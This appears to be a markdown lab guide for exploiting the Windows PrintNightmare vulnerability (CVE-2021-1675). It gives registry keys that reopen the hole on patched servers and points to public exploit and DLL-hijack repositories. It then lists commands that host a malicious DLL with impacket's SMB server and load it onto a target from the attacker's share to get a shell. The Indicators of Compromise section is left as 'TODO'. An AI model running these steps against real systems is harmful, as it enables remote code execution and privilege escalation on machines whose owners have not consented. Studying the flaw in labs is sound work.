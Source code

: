 # PrintNightmare (CVE-2021-1675)
## Summary

PrintNightmare is a critical vulnerability that allows an attacker to obtain remote code execution and/or privilege escalation against any target Windows machine using the Spooler service that is enabled by default. While Microsoft has issued a patch for this vulnerability, if a few registry keys are present, then the target will still be vulnerable despite having the patch.

## Prerequisites

Either a Windows server that doesn't have the patch released on July 1st, 2021, or must have some special registry keys added. Further, some form of SMB server and a custom compiled DLL is required to exploit this vulnerability.

## Setup

Once the server is installed, and *if* the server contains the patch, then the following registry keys need to be installed:

```registry
HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint\RestrictDriverInstallationToAdministrators REG_DWORD 0x0
HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint\NoWarningNoElevationOnInstall REG_DWORD 0x1
```

![registry entries](./images/Pasted%20image%2020230606093107.png)

## Execution

### Method 1 - Cube0x0's Repo

Clone [Cube0x0's repo](https://github.com/cube0x0/CVE-2021-1675) (https://github.com/cube0x0/CVE-2021-1675), as well as [this DLL repo](https://github.com/NukingDragons/DllHijacks) (https://github.com/NukingDragons/DllHijacks). Pick the DLL you want from the DLL repo and compile it on Windows, or using MinGW following the instructions in the README.

Once you have the DLL of choice compiled, and whatever listener/method of receiving or connecting to the shell configured, use impackets SMB server to host the file, and run the following commands:

```bash
impacket-smbserver -smb2support share /path/to/folder/with/DLL
```

Finally, exploit the target:

```bash
python3 CVE-2021-1675 domain.com/username:'password'@target-ip '\\your-ip\share\your.dll'
```

![successful connection](./images/Pasted%20image%2020230606100148.png)

#### Indicators of Compromise

TODO
